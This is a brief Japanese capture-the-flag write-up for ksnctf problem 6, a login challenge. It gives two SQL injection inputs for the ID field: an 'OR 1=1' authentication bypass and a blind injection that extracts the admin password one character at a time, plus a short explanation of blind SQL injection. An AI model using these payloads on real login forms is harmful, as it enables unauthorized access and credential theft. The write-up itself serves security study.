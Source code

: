 ### 問題6 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)

### 解法

1. 以下をID欄に入力  
    ' OR 1=1 --     
2. 以下をID欄に入力  
    admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--    
### メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
